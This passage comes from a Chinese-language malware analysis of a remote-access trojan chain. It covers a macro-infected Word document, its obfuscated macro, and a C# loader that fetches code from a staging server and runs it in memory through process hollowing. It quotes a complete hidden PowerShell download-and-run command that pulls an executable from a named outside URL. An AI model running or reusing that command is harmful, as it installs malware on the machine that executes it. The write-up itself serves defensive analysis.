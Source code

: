 
## 0x2 行为分析

名称统一使用Hash的前几个字符加后缀的方式命名。主要操作是远控类木马。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01ad320e712c3d2486.png)

[![](https://p2.ssl.qhimg.com/t010d91008f63956466.png)](https://p2.ssl.qhimg.com/t010d91008f63956466.png)

## 0x3 样本分析

### <a name="0x4.1_4fb430.doc"></a>**0x3.1 4fb430.doc**

是一个doc宏病毒样本，通过使用oledump获取其中的宏代码。

[![](https://p5.ssl.qhimg.com/t01645af056c98395d9.png)](https://p5.ssl.qhimg.com/t01645af056c98395d9.png)

发现宏代码被混淆严重，去混淆结合沙箱的结果推测具体行为如下：
- 宏代码调用cmd，解密其中的十进制数据。
- 接着调用powershell。下载massive.exe- powershell.exe -w hidden -ep bypass (New-Object System.Net.WebClient).DownloadFile(‘http://www.gestomarket.co/ylqrg54.exe’,$env:temp + ‘massive.exe’);- 运行massive.exe
### <a name="0x4.2_massive.exe"></a>**0x3.2 massive.exe**

首先这个样本是一个C#程序，使用ILSpy查看源代码。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01d22ce3cfa21a2f1d.png)

将程序定位到关键的地方。发现这个样本也只是一个外壳程序，用于从攻击跳板上获取攻击代码，然后将其写入我们的内存中，从内存中执行攻击代码，实现了无文件落地，有效规避了查杀。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0192a0c41fa1acaf2f.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01fc9999356414eb13.png)

使用进程替换技术，先创建一个和自身相同的子进程，然后使用进程替换进程，执行我们的攻击代码。但是由于C#不好被调试，所以将其子进程转储得到我们落地的攻击样本如下，命名为DumpFrommassive.exe

[![](https://p5.ssl.qhimg.com/t01e96cbe7c3a6878f7.png)](https://p5.ssl.qhimg.com/t01e96cbe7c3a6878f7.png)

[![](https://p3.ssl.qhimg.com/t01ed36d9869504ecb6.png)](https://p3.ssl.qhimg.com/t01ed36d9869504ecb6.png)

### <a name="0x4.3_DumpFrommassive.exe"></a>**0x3.3 DumpFrommassive.exe**

